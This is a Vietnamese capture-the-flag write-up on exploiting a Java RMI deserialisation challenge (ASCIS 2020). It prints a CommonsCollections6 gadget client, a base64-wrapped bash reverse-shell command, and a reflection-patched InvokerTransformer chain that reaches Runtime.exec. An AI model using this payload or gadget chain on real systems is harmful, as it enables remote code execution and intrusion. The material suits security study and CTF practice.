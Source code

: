 # Step 1:
Dựa vào hint của tác giả với blog <a href="https://mogwailabs.de/en/blog/2019/03/attacking-java-rmi-services-after-jep-290/">này</a> có thể sử dụng gadget CommonsCollections6 để khai thác. Chỉnh sửa lại client lại 1 chút để gửi payload.

```
public static void main(String[] args) throws Exception {
        String serverIP = "IP";
        int serverPort = Integer.parseInt("PORT");
        Registry registry = LocateRegistry.getRegistry(serverIP, serverPort);
        ASCISInterf ascisInterf = (ASCISInterf)registry.lookup("ascis");
        Object payload = new CommonsCollections6().getObject("bash -c {echo,BASE64(bash -i >& /dev/tcp/IP/PORT 0>&1)}|{base64,-d}|{bash,-i}");
        System.out.println(ascisInterf.login(payload));
    }
```
Nhận được exception như dưới:
<img src="https://raw.githubusercontent.com/trungthiennguyen/CTF-Writeup/main/ASCIS-2020-Quals/RMI-v2/vul1.png">
Dựa vào đây biết được tác giả đã đổi biến static final serialVersionUID thành -1333713373713373737L.
# Step 2:
Sử dụng java reflection để thay đổi biến static final lại thành -1333713373713373737L là xong.
<img src="https://raw.githubusercontent.com/trungthiennguyen/CTF-Writeup/main/ASCIS-2020-Quals/RMI-v2/image_2020-11-02_17-29-08.png">
# Note:
Sau khi bruteforce class của ysoserial thì còn có thể sử dụng CommonsCollections5
# Explaint
* Dự vào writeup bài 1 của <a href="https://github.com/vinhjaxt/CTF-writeups/issues/2">Vịnh</a> thì ta biết được để làm cách 2 trước tiên phải bruteforce class lấy trong ysoserial. Để bruteforce thì ta sẽ sử dụng GadgetProbe để tìm các classpath có tồn tại trên server, nếu không có sẽ đẩy ra ClassNotFoundException và không có DNS request, nếu có sẽ có DNS trả về.
* Lần lượt bỏ các classpath của từng gadget vào, mình và một người anh cựu sinh viên chung trường - Mr.S tìm được có 3 gadget trong ysoserial có đủ tất cả các classpath trả DNS về là URLDNS, CommonsCollections5, CommonsCollections6. Bọn mình chỉ fuzz tới đây đã thấy có đủ điều kiện để exploit rồi nên không fuzz tiếp mà bỏ gadget vào chạy luôn.
* Sau khi bỏ gadget vào client và gửi cho server như trên, thì bọn mình thu được InvalidClassExeption như hình trên. Trong Exeption có ghi 2 serialVersionUID của class InvokerTransformer, và khi kiểm tra thì biến static final serialVersionUID -86533...688 đó nằm trong class InvokerTransformer của mình. Từ đó mình khá chắc là serialVersionUID -1337... còn lại là nằm trên server. Việc của mình chỉ cần thay đổi biến này thành UID như trên server là xong.
* Để thay đổi giá trị của biến final, bọn mình sử dụng java reflection dựa trên một <a href="https://viblo.asia/p/java-va-nhung-dieu-thu-vi-co-the-ban-chua-biet-LzD5dJeOZjY">đường dẫn</a>, có tiếng việt luôn nên mọi chuyện cực kì dễ dàng.
* Do trình còi nên bọn mình custom lởm chởm gadget như sau:
```
	InvokerTransformer in1 = new InvokerTransformer("getMethod", new Class[] {
            String.class, Class[].class }, new Object[] {
            "getRuntime", new Class[0] });
        Field fieldA = in1.getClass().getDeclaredField("serialVersionUID");
        fieldA.setAccessible(true);
        Field modifiersField = Field.class.getDeclaredField("modifiers");
        modifiersField.setAccessible(true);
        modifiersField.setInt(fieldA, fieldA.getModifiers()&~Modifier.FINAL);
        fieldA.set(in1,-1333713373713373737L);

        InvokerTransformer in2 = new InvokerTransformer("invoke", new Class[] {
            Object.class, Object[].class }, new Object[] {
            null, new Object[0] });
        Field fieldB = in2.getClass().getDeclaredField("serialVersionUID");
        fieldB.setAccessible(true);
        Field modifiersFieldB = Field.class.getDeclaredField("modifiers");
        modifiersFieldB.setAccessible(true);
        modifiersFieldB.setInt(fieldB, fieldB.getModifiers()&~Modifier.FINAL);
        fieldB.set(in2,-1333713373713373737L);

        InvokerTransformer in3 =new InvokerTransformer("exec",
            new Class[] { String.class }, execArgs);
        Field fieldC = in3.getClass().getDeclaredField("serialVersionUID");
        fieldC.setAccessible(true);
        Field modifiersFieldC = Field.class.getDeclaredField("modifiers");
        modifiersFieldC.setAccessible(true);
        modifiersFieldC.setInt(fieldC, fieldC.getModifiers()&~Modifier.FINAL);
        fieldC.set(in3,-1333713373713373737L);

        final Transformer[] transformers = new Transformer[] {
            new ConstantTransformer(Runtime.class),
            in1,
            in2,
            in3,
            new ConstantTransformer(1) };
```
* Xong gadget, sửa lại client như trên rồi gửi lên server để reverse shell về máy là xong.
